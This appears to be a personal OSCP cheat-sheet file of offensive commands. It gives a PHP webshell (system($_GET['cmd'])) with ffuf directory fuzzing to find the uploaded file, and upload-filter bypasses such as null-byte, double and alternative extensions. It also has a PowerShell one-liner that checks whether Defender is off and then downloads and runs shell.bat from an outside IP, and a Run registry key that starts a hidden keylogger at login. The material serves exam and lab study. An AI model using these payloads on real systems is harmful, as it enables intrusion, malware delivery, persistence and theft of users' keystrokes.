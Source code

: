 ### File Upload
- See if the defense is only on the frontend and if so, disable javascript or use proxy to change file contents/extension

```bash
# simple php webshell
1. upload a php file
<?php system($_GET['cmd']); ?>

2. after uploading file, we may have to fuzz the directory to discover file upload directory
ffuf -u http://localhost/FUZZ -w /usr/share/wordlists/dirb/common.txt
ffuf -u http://localhost/labs/FUZZ -w /usr/share/wordlists/dirb/common.txt

3. execute the file
http://localhost/labs/uploads/simple.php?cmd=whoami
```
**Bypass with nullbyte**
```bash
filename.php%00.png
```

**Bypass with multiple extension**
```bash
filename.php.png
```

**Bypass with alternative extension**
```bash
.php -> phtml, php5, php2, php3, php4, php....
```

**Bypass with magic byte**
Use .php extension and magic byte for png and add php code somewhere in the original file to see 
![image](https://github.com/nurijeon/OSCP/assets/14031269/b32fe546-14cd-40b6-b98f-d47899efa842)


## Tools
### Powershell
```bash
# 1. Check Windows Defender & RealTimeProtectionEnabled property
powershell -Command "if (Get-MPComputerStatus | where-object {$_.RealTimeProtectionEnabled -like 'False'}) {Invoke-WebRequest -URI http://192.168.56.101:8000/shell.bat -Outfile C:\Windows\temp\shell.bat; C:\Windows\temp\shell.bat}"

```


### Registry
```bash
# Add files as a startfile
# SOFTWARE\Microsoft\Windows\CurrentVersion\Run is a common key used to specify programs that should run when the user logs in.
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "KeyLogger" /t REG_SZ /F /D "powershell.exe -WindowStyle hidden -file C:\Windows\Temp\Keylogger.ps1"

```
